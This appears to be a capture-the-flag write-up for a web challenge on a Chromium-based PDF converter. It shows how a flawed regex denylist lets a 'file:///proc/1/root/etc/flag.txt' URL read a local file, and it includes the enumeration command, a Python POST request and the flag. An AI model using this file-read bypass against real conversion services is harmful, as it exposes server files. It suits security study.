

> I'm not solving this while the CTF is running.

So, in the `8.0.3` by comparing the version to main/latest version there is some misconfiguration for the denylist


`CHROMIUM_DENY_LIST="^file:///[^tmp].*"`

The regex will deny all the files except the files that start with `t`, `m`, or `p`

So, in order to bypass this we need to get the `flag.txt` from `/proc` directory

By running the docker shell we can search with the following command

```bash
ls /proc/*/* | grep flag.txt
```

The output will be

```bash
/proc/1/root/etc/flag.txt
/proc/50/root/etc/flag.txt
/proc/7/root/etc/flag.txt
/proc/74/root/etc/flag.txt
/proc/75/root/etc/flag.txt
/proc/self/root/etc/flag.txt
/proc/thread-self/root/etc/flag.txt
```

Explaination of why the file is in `/proc` directory

> `/proc` directory is a virtual filesystem that contains information about processes and system resources. It is a pseudo-filesystem that provides an interface to kernel data structures. It is commonly used for debugging and performance monitoring. The files in the `/proc` directory are not real files on disk, but rather representations of kernel data structures. The `flag.txt` file in the `/proc` directory is a symbolic link to the actual file on disk. This is why the file is accessible through the `/proc` directory even though it is not stored there directly.

So, we can request the file using the following URL

```py
url = "https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/url"

# multipart/form-data
form_data = {
    "url": (None, "file:///proc/1/root/etc/flag.txt")
}

# Make the POST request
response = requests.post(url, files=form_data)
```

The open-source vuln is not always dependent on CVE or other sources, sometimes it is just a misconfiguration.

> DUCTF{dEeZ_r3GeX_cHeCK5_h4h_g0t_eM}
